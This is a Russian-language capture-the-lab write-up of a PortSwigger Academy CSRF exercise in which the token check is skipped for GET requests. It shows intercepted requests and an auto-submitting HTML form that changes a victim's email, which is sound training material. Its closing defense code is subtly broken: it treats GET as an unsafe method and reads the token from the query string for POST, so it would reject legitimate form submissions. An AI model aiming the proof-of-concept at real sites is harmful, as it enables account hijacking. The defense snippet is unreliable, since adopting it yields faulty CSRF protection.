




## Lab: CSRF where token validation depends on request method

**Платформа:** PortSwigger Web Security Academy    
**Категория:** CSRF    
**Сложность:** Practitioner   
**Дата:** 2025-07-09    

---

## TL;DR
Сервер проверяет CSRF-токен только для POST-запросов.
При смене метода на GET токен не проверяется вообще —
форма с автосабмитом через GET меняет email жертвы без токена.

---

## Описание уязвимости
Защита от CSRF реализована непоследовательно — токен проверяется
только для определённого HTTP-метода. Если сервер принимает
тот же запрос через другой метод без проверки токена,
защита полностью обходится.

---

## Разведка

### Шаг 1 — Изучаем форму смены email
Залогинилась как `wiener:peter`, открыла форму смены email.
Перехватила запрос в Burp Suite Proxy → HTTP History:

```http
POST /my-account/change-email HTTP/1.1
Host: LAB-ID.web-security-academy.net
Cookie: session=aBcDeFgHiJ...
Content-Type: application/x-www-form-urlencoded

email=test@test.com&csrf=WfF1szMUHhiokx9AHFply5L2xAOfjRkE
```

CSRF-токен присутствует — защита есть.
Отправила запрос в Repeater для дальнейшего тестирования.



### Шаг 2 — Проверяем токен
В Repeater изменила значение `csrf` на произвольное → отправила.
Сервер вернул ошибку — токен для POST проверяется.



### Шаг 3 — Меняем метод на GET
В Repeater правая кнопка мыши → Change request method.
Burp автоматически конвертировал POST в GET:

```http
GET /my-account/change-email?email=test@test.com&csrf=неверный_токен HTTP/1.1
Host: LAB-ID.web-security-academy.net
Cookie: session=aBcDeFgHiJ...
```

Отправила — сервер принял запрос и сменил email.
Токен для GET не проверяется вообще.


---
## Эксплуатация

### Шаг 1 — Создание exploit-страницы
Форма без `method="POST"` по умолчанию использует GET:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a59002e03e1aa4382e810d100840046.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="test5&#64;mail&#46;com" />
      <input type="hidden" name="csrf" value="123" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

Токен в форме не нужен — сервер его не проверяет для GET.

### Шаг 2 — Размещение на exploit-сервере
Вставила HTML в поле Body exploit-сервера → Save.

### Шаг 3 — Проверка на себе
Нажала "View exploit" — email сменился. Эксплойт работает.

### Шаг 4 — Атака на жертву
Изменила email на новый, нажала "Deliver to victim".
Email жертвы изменён — лаба решена.



---

## Почему сработало

```
POST /change-email  →  токен проверяется  →  защита работает
GET  /change-email  →  токен не проверяется  →  защита обходится

Сервер считал что смена email возможна только через POST
Но GET-запрос с теми же параметрами тоже принимался
```

---

## Итог
Непоследовательная проверка токена — такая же уязвимость
как полное отсутствие токена. Защита должна применяться
ко всем HTTP-методам которые изменяют состояние на сервере.

---

## Защита

```python
# Плохо — проверка только для POST:
if request.method == "POST":
    if request.form['csrf'] != session['csrf_token']:
        abort(403)

# Хорошо — проверка для всех небезопасных методов:
if request.method in ["POST", "PUT", "PATCH", "DELETE", "GET"]:
    if request.args.get('csrf') != session['csrf_token']:
        abort(403)

# Лучше — использовать SameSite=Strict на куках:
# Set-Cookie: session=abc; SameSite=Strict; Secure; HttpOnly
# Браузер не отправит куки при любом кросс-сайтовом запросе
# независимо от HTTP-метода
```